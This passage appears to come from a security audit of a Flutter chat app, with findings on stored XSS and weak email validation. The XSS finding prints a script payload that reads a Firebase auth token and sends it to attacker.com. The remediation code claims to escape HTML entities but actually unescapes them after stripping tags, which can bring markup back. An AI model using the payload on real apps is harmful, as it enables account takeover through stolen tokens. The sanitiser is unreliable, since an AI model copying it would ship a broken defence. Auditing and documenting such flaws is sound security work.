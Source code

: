 **Attack Vector**:
```dart
// Attacker sends malicious message
final message = '''
  <script>
    // Steal auth token
    const token = localStorage.getItem('firebase_token');
    fetch('https://attacker.com/steal?token=' + token);
  </script>
''';
```

**Remediation**:
```dart
// ✅ SANITIZE ALL USER INPUT BEFORE DISPLAY
import 'package:html_unescape/html_unescape.dart';

String sanitizeMessage(String message) {
  // Remove HTML tags
  String sanitized = message.replaceAll(RegExp(r'<[^>]*>'), '');

  // Escape HTML entities
  final unescape = HtmlUnescape();
  sanitized = unescape.convert(sanitized);

  // Remove potentially dangerous patterns
  sanitized = sanitized
    .replaceAll(RegExp(r'javascript:', caseSensitive: false), '')
    .replaceAll(RegExp(r'on\w+\s*=', caseSensitive: false), '');

  return sanitized;
}

// Use in message display
Widget build(BuildContext context) {
  return Text(sanitizeMessage(message.content));
}
```

**Priority**: 🟠 **HIGH** - Fix within 3 days

---

### 🟠 HIGH: Insufficient Email Validation (CVSS 5.8)

**Location**: `lib/utils/validation.dart:137-139`

**Vulnerability**:
```dart
static bool isValidEmail(String email) {
  return RegExp(r'^[\w-\.]+@([\w-]+\.)+[\w-]{2,4}$').hasMatch(email);  // ❌ WEAK
}
```

**Security Impact**:
- Allows invalid email formats
- Potential for email injection attacks
- Bypasses email verification
